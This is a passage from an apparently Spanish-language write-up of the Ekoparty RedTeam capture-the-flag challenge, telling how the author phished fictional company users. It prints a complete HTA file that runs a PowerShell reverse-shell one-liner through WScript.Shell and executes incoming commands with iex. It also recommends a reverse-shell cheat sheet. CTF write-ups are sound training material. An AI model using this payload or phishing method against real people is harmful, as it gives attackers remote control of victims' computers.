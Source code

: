 ```
florencia.penia@mandingacorp.xyz
hugo.mochano@mandingacorp.xyz
wanda.nardo@mandingacorp.xyz
susana.gimenes@mandingacorp.xyz
```

Al enviar un correo todos los usuarios respondían y podíamos encontrarnos con mensajes graciosos como el siguiente:

![Respuesta](/images/redteam-ctf-writeup/respuestacorreo.png "Respuesta")

Gracias a una experiencia previa en una máquina de HackTheBox, intenté enviar un correo con un enlace para ver si algunos de los usuarios accedía, el enlace iba directo a mi servidor web. Envié el enlace a todos los usuarios... me quedé mirando los logs del servidor, pero solo veía las peticiones de los bots de Shodan, Google y alguna que otra IP China intentando vulnerar mi servidor WEB. A todo esto ya estaba entrada la noche del primer díaa de la Ekoparty, varias horas de charlas, el CTF de RedTeam y el de ONAPSIS en paralelo; ¡no había estirado las piernas en 8 horas!
Junto con bronxi, salimos a comprar unas cervezas y recibir un poco de oxígeno, a las 2 cuadras de nuestro trayecto al parecer mi cerebro se oxígeno y relacionó las palabras "Higo, Tartas, Almendras" con las siglas HT. Recordé que si el usuario abre un archivo .HTA mediante Internet Explorer podíamos conseguir ejecución de código. Volvimos ya con las piernas estiradas y el cerebro oxigenado a la carga, preparé el siguiente archivo HTA:

```html
<html>
<head>
<script>
var c= "powershell -nop -w 1 -c \"$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\""
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head><body>
<script>self.close();
</script>
</body></html>

```

El payload nos da una shell inversa con powershell al host y puertos seleccionados, a la persona que esté leyendo le recomiendo el repositorio [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) que contiene disintas maneras de generar shells inversas en distintos lenguajes de programación y sistemas operativos. 

Junto con memoryempty intentamos mandar el correo de todas las maneras que se nos ocurrió. No hubo caso, no teníamos una shell ni un vestigio de que algo o alguien fuera a buscar nuestro payload. Ya eran las 23hs. del primer día de la eko y nadie había logrado sacar el segundo flag. Comimos, tomamos más cerveza, intentamos más cosas y nada. Hubo que irse a dormir pensando que estabamos equivocados.
Al otro día, a las 8 AM, ya estabamos "descansados" e intentando nuevamente obtener el flag. Los chicos de PucaraSec habían dejado más pistas durante la madrugada. Como buena noticia, estabamos en lo correcto habíaa que mandarle un correo a un usuario con un enlace a un archivo HTA. Asi que manos a la obra nuevamente, para ser más explícitos cambiaron el mensaje de uno de los usuarios y contestaba de la siguiente manera:
